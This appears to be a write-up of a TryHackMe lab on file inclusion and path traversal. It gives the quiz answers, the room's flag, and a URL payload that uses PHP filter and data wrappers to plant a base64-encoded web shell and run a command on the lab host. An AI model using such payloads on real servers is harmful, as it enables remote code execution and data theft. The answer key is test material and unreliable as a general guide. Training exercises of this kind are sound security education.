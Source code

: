 # [File Inclusion, Path Traversal](https://tryhackme.com/room/filepathtraversal)

## Task 1  Introduction
+ Objectives
    - Understand what File Inclusion and Path Traversal attacks are and their impact.
    - Identify File Inclusion and Path Traversal vulnerabilities in web applications.
    - Exploit these vulnerabilities in a controlled environment.
    - Understand and apply measures to mitigate and prevent these vulnerabilities.
## Task 2  Web Application Architecture
+ Click me to proceed to the next task. `No Answer Needed`
## Click me to proceed to the next task.
+ What kind of pathing refers to locating files based on the current directory?`Relative pathing`
+ What kind of pathing involves the file's complete path, which usually starts from the root directory?`Absolute pathing`
## Task 4  PHP Wrappers
+ What part of PHP's functionality allows users access to various data streams that can also access or execute code through built-in protocols?`PHP wrappers`
## Task 5  Base Directory Breakouts
+ Click me to proceed to the next task. `No Answer Needed`
## Task 6  LFI2RCE - Session Files
+ Click me to proceed to the next task. `No Answer Needed`
## Task 7  LFI2RCE - Log Poisoning
+ What technique does an attacker use to inject executable code into a web server's log file and then use a file inclusion vulnerability to include and execute the malicious code?`Log Poisoning`
## Task 8  LFI2RCE - Wrappers
+ What is the content of the hidden text file in the flags folder?`THM{fl4g_cd3c67e5079de2700af6cea0a405f9cc}`
```payload
http://10.10.116.30/playground.php?page=php://filter/convert.base64-decode/resource=data://plain/text,PD9waHAgc3lzdGVtKCRfR0VUWydjbWQnXSk7ZWNobyAnU2hlbGwgZG9uZSAhJzsgPz4+&cmd=cat+flags/cd3c67e5079de2700af6cea0a405f9cc.txt
```
